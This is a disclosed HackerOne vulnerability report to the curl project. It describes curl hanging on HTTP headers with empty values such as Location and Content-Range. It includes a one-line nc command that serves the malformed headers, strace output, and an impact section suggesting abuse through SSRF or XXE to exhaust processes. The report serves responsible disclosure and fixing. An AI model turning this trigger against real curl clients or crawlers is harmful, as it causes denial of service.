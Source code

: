 # Poll loop/hang on incomplete HTTP header

## Report Details
- **Report ID**: 889160
- **URL**: https://hackerone.com/reports/889160
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-06-02T08:45:04.680Z
- **Disclosed**: 2021-01-22T15:27:41.643Z

## Reporter
- **Username**: kugghjul
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:
When an incomplete server header is missing its value, the curl client will receive the packet but hang while parsing it.  Examples of vulnerable server headers:  `Location`, `Content-Range` and `Connection`. Adding the `--max-time`option will terminate the request as intended.

## Steps To Reproduce:
  1. Set up server:  `echo -e "HTTP/1.1 200 OK\r\nLocation:\r\nContent-Range:\r\nConnection:\r\n" | nc -l -p 1337`
  2. Make the request: `curl --connect-timeout 1 http://localhost:1337`

## Supporting Material/References:
The bug was found using AFL with network support. The repository https://github.com/kugg/fuzzminator with the commit hash id `08a0102fbf633e5de3d43a01b995e1ca8e68bbd3`. 

* The attached file named `hangs.tar.gz` contains results from AFL including headers resulting in a hang. 
* Note: Location header is parsed even without the `--location` option and also when the server indicate `200 OK`.

**Strace output**
`$ strace curl -v --connect-timeout 1 http://localhost:1337`
```
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("127.0.0.1")}, 16) = -1 EINPROGRESS (Operation now in progress)
poll([{fd=3, events=POLLOUT|POLLWRNORM}], 1, 0) = 1 ([{fd=3, revents=POLLOUT|POLLWRNORM}])
getsockopt(3, SOL_SOCKET, SO_ERROR, [0], [4]) = 0
getpeername(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("127.0.0.1")}, [128->16]) = 0
getsockname(3, {sa_family=AF_INET, sin_port=htons(37502), sin_addr=inet_addr("127.0.0.1")}, [128->16]) = 0
write(2, "*", 1*)                        = 1
write(2, " ", 1 )                        = 1
write(2, "Connected to localhost (127.0.0."..., 50Connected to localhost (127.0.0.1) port 1337 (#0)
) = 50
sendto(3, "GET / HTTP/1.1\r\nHost: localhost:"..., 78, MSG_NOSIGNAL, NULL, 0) = 78
write(2, ">", 1>)                        = 1
write(2, " ", 1 )                        = 1
write(2, "GET / HTTP/1.1\r\n", 16GET / HTTP/1.1
)      = 16
write(2, ">", 1>)                        = 1
write(2, " ", 1 )                        = 1
write(2, "Host: localhost:1337\r\n", 22Host: localhost:1337
) = 22
write(2, ">", 1>)                        = 1
write(2, " ", 1 )                        = 1
write(2, "User-Agent: curl/7.58.0\r\n", 25User-Agent: curl/7.58.0
) = 25
write(2, ">", 1>)                        = 1
write(2, " ", 1 )                        = 1
write(2, "Accept: */*\r\n", 13Accept: */*
)         = 13
write(2, ">", 1>)                        = 1
write(2, " ", 1 )                        = 1
write(2, "\r\n", 2
)                     = 2
poll([{fd=3, events=POLLIN|POLLPRI|POLLRDNORM|POLLRDBAND}], 1, 0) = 1 ([{fd=3, revents=POLLIN|POLLRDNORM}])
recvfrom(3, "HTTP/1.1 200 OK\nLocation:\nConten"..., 102400, 0, NULL, NULL) = 60
write(2, "<", 1<)                        = 1
write(2, " ", 1 )                        = 1
write(2, "HTTP/1.1 200 OK\n", 16HTTP/1.1 200 OK
)       = 16
write(2, "<", 1<)                        = 1
write(2, " ", 1 )                        = 1
write(2, "Location:\n", 10Location:
)             = 10
write(2, "<", 1<)                        = 1
write(2, " ", 1 )                        = 1
write(2, "Content-Range:\n", 15Content-Range:
)        = 15
write(2, "<", 1<)                        = 1
write(2, " ", 1 )                        = 1
write(2, "Connection: Close\n", 18Connection: Close
)     = 18
write(2, "<", 1<)                        = 1
write(2, " ", 1 )                        = 1
write(2, "\n", 1
)                       = 1
rt_sigaction(SIGPIPE, {sa_handler=SIG_IGN, sa_mask=[PIPE], sa_flags=SA_RESTORER|SA_RESTART, sa_restorer=0x7f60c90e1890}, NULL, 8) = 0
poll([{fd=3, events=POLLIN}], 1, 198)   = 0 (Timeout)
rt_sigaction(SIGPIPE, NULL, {sa_handler=SIG_IGN, sa_mask=[PIPE], sa_flags=SA_RESTORER|SA_RESTART, sa_restorer=0x7f60c90e1890}, 8) = 0
rt_sigaction(SIGPIPE, {sa_handler=SIG_IGN, sa_mask=[PIPE], sa_flags=SA_RESTORER|SA_RESTART, sa_restorer=0x7f60c90e1890}, NULL, 8) = 0
poll([{fd=3, events=POLLIN|POLLPRI|POLLRDNORM|POLLRDBAND}], 1, 0) = 0 (Timeout)
rt_sigaction(SIGPIPE, {sa_handler=SIG_IGN, sa_mask=[PIPE], sa_flags=SA_RESTORER|SA_RESTART, sa_restorer=0x7f60c90e1890}, NULL, 8) = 0
poll([{fd=3, events=POLLIN}], 1, 1)     = 0 (Timeout)
```

## Impact

This vulnerability could lead to denial of service of one given http request.
Curl is often used for crawling, when this is the case a curl process could be blocked indefinitely by a server providing incomplete headers.
If curl is used for fetching third party information through a web interface an attacker with SSRF or XXE access could use this bug to exhaust process id numbers or amount of allowed forks for the process by locking up curl clients.

## Attachments
- hangs.tar.gz
